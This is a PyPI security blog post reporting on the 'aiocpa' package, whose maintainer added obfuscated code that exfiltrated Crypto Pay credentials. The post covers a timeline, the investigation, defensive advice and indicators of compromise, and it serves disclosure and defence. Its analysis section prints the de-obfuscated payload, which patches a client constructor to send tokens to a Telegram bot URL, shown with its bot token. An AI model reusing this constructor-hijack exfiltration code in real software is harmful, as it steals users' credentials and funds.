

On 2024-11-21, PyPI was notified about a malware attack with few details.
Upon further investigation, we found that the maintainer was injecting obfuscated code
that will exfiltrate credentials to a specific Telegram bot.
The credentials include tokens, API servers, and other Crypto Pay-related data,
and it is unknown to PyPI Security whether these have been used in any manner.

The project has been removed from PyPI.

If you have installed any versions of `aiocpa`,
audit your usage of the library and consider alternatives.
This may also appear as `cryptopay` on disk,
as that's the internal name of this particular module --
which is not the same as the PyPI package [cryptopay](https://pypi.org/project/cryptopay/)
-- a completely different package.

<!-- more -->

## Timeline (in UTC)

* 2024-09-01 01:04:55 - PyPI user `VoVcHiC` creates project `aiocpa`

    There are a number of releases for this project, changing the code, et al, until version 0.1.13

* 2024-09-01 01:04:55 - aiocpa-0.1.0 released
* 2024-09-01 16:41:55 - aiocpa-0.1.1 released
* 2024-09-01 16:52:35 - aiocpa-0.1.2 released
* 2024-09-03 01:07:24 - aiocpa-0.1.3 released
* 2024-09-06 14:38:17 - aiocpa-0.1.4 released
* 2024-09-18 16:32:36 - aiocpa-0.1.5 released
* 2024-10-12 14:52:50 - aiocpa-0.1.6 released
* 2024-11-09 23:53:50 - aiocpa-0.1.8 released
* 2024-11-12 13:03:46 - aiocpa-0.1.9 released
* 2024-11-12 17:21:34 - aiocpa-0.1.10 released
* 2024-11-13 05:23:01 - aiocpa-0.1.11 released
* 2024-11-20 00:46:20 - aiocpa-0.1.12 released
* 2024-11-20 18:04:41 - **aiocpa-0.1.13 released <= first version to include malware**
* 2024-11-20 18:50:01 - aiocpa-0.1.14 released <= still includes malware

* 2024-11-21 16:18:46 - Inbound report from Karlo Zanki, ReversingLabs
* 2024-11-21 18:15:00 - (approximately) PyPI Security begins evaluation of inbound report
* 2024-11-21 18:29:40 - PyPI Security quarantines `aiocpa` during investigation
* 2024-11-22 Investigation continues, report drafted
* 2024-11-25 Report published

## Investigation

As part of the inbound security reporting protocol,
we request that reporters provide a link to the code in question,
as oftentimes a given Python package can have many lines of code,
spread across many modules.

This report included a brief description denoting the existence of obfuscated code -
which is in violation of the PyPI Acceptable Use Policy - and
[a link to the malicious code](https://inspector.pypi.io/project/aiocpa/0.1.13/packages/ab/98/7343281068a2c39086d0b877219668a487508197f46e89b3f41046a4a8ba/aiocpa-0.1.13.tar.gz/aiocpa-0.1.13/cryptopay/utils/sync.py#line.44).

After inspecting the code, and confirming a large block that
automatically executes when the module is imported,
I set about to also understand the package behavior,
and confirmed it was newly added to the project
in version 0.1.13, and persisted in 0.1.14 as well.

Earlier this year, I was able to
[develop a feature to quarantine a project](2024-08-16-safety-and-security-engineer-year-in-review.md/#project-lifecycle-status-quarantine)
- effectively protecting end users from installing the project while I investigate further.
I also inspected the user's [linked source repository](https://github.com/vovchic17/aiocpa),
and confirmed it had recent commit activity, and generally the same codebase,
but no evidence of the obfuscated code in the source code repo.

The source repository looks like a legitimate project,
and adopts badges, links, quickstarts:


This is a good reminder to readers that packages on PyPI **do not have** to be
a 1-to-1 representation of a source code repository,
as PyPI hosts source (`sdist`) and built (`wheel`) distribution files of projects.
There is no requirement for these to be in sync.
Some differences would be natural, such as a compiled binary file
in a built distribution would be created during a build phase
and included in the installable artifact.
Read more about this in the [Python Packaging Guide](https://packaging.python.org/en/latest/flow/).

Now that I was pretty certain that this was newly-introduced obfuscated code
to an existing library,
I wrote a function that would help me de-obfuscate this code.
This isn't always part of every analysis,
especially if we've seen this specific behavior before.
Since this wasn't a new user account or new project,
I wanted to be sure before removal, a destructive action.

The code was wrapped in 50 layers of obfuscation,
using techniques like byte-encoding, compression, and reversals,
finally looking like this:

```python
from cryptopay.client import CryptoPay
import urllib

init = CryptoPay.__init__

def __init__(*args, **kwargs):
    init(*args, **kwargs)
    try:
        urllib.request.urlopen(f"hxxps://api[.]telegram[.]org/bot7858967142:AAGeM6QvKdEUK9ZWD9XoVM_Zl1cmj_mlyJo/sendMessage?chat_id=6526761736&text={args[1:]}")
    except: pass

CryptoPay.__init__ = __init__
```
_(I've modified the URL so it isn't easily clickable)_

When a user/other code runs the equivalent of `import cryptopay`,
the top-level module imports the `CryptoPay` class from `cryptopay.utils.sync`.

When the library imports the `sync` module, the obfuscated code is evaluated,
which overrides the constructor for the [main client class](https://github.com/vovchic17/aiocpa/blob/553ebcea27f993a2ba9439374eb619ee64f7ff5b/cryptopay/client/client.py#L23-L39),
which then will post the client's `args` to the configured Telegram bot endpoint,
usually a token, API server address, presumably to drain a crypto wallet.

## Thoughts

This attack appears to be in the style of creating what appears to be useful software,
releasing it to the public, seeing some adoption of use,
and including malicious behaviors later.
This is a relatively rare occurrence, which is why it's notable.

The author had previously published another Python library
that does not appear to have any malware in it, so we have left it as is.

The author had also opened a request to take over an existing project name.
This is a semi-common support request usually handled by the [PyPI Support Specialist](2024-03-20-announcing-a-pypi-support-specialist.md),
referred by PyPI Admins after further review for final decision.
This request had not yet started initial review,
we have denied it and closed the request.
It's possible that the author was trying to adopt a more legitimate-appearing name
to attract more victims, we may never know.

The possibility for project name transfers is a reminder to
pin your dependencies and versions - and level up by
using hashes to prevent unwanted updates to existing package/version constraints.
Some tools can do this today, and read [PEP 751 – A file format to record Python dependencies for installation reproducibility](https://peps.python.org/pep-0751/)
for a recent proposal on that front.

You may also want to set up further protections like outbound network firewalls
to monitor or prevent network calls to unknown destinations,
which is far beyond the scope of Python package security, but generally a good practice.

Previous steps for PyPI - [Trusted Publishers](2023-04-20-introducing-trusted-publishers.md),
[Identity Attestations](2024-11-14-pypi-now-supports-digital-attestations.md),
and work-in-progress efforts like build artifact attestations,
[software bill of materials (SBOMs)](https://github.com/psf/sboms-for-python-packages)
- are all steps to add more security to the overall supply chain
so end users can have more confidence that what exists in a source code repository
is reliably what ended up in their installed environment.

PyPI receives over 500 inbound malware reports per month from a variety of sources.
Most valid reports are from volunteer security researchers in the community
that have built up a practice of scanning and manually confirming malicious behaviors,
and reporting them to PyPI via the mechanisms we've developed to enable rapid response.

We're proud to provide PyPI as a free service relied on by
a massive number of users for an equally massive set of use cases.
We're also proud that we not only maintain gold-standard security practices,
but we are helping to continuously push those standards higher in the industry.
We believe that being a community-driven service run by an independent,
non-corporate entity has been core to PyPI's success.
Because of that independent, nonprofit status,
we rely on our community to support our work.
If you benefit from our work to keep PyPI thriving and secure, please
[consider donating to the Python Software Foundation](https://www.python.org/psf/donations/)
so we can keep [moving that work forward in 2025](https://pyfound.blogspot.com/2024/11/help-power-python-2024-fundraiser.html)
and beyond.

## Indicators of Compromise (IoC)

* Package name: `aiocpa`
* Obfuscated code: `https://inspector.pypi.io/project/aiocpa/0.1.13/packages/ab/98/7343281068a2c39086d0b877219668a487508197f46e89b3f41046a4a8ba/aiocpa-0.1.13.tar.gz/aiocpa-0.1.13/cryptopay/utils/sync.py#line.44`
* Target endpoint: `https://api[.]telegram[.]org/bot7858967142:AAGeM6QvKdEUK9ZWD9XoVM_Zl1cmj_mlyJo`
* GitHub source repository, does not contain the malware: `https://github.com/vovchic17/aiocpa`
* Gist of `aiocpa` differences between versions 0.1.12 and 0.1.13 (contains malware): https://gist.github.com/miketheman/b09eedecf559026ae2ec0c44ad980f71#file-aiocpa-12-13-diff-L128
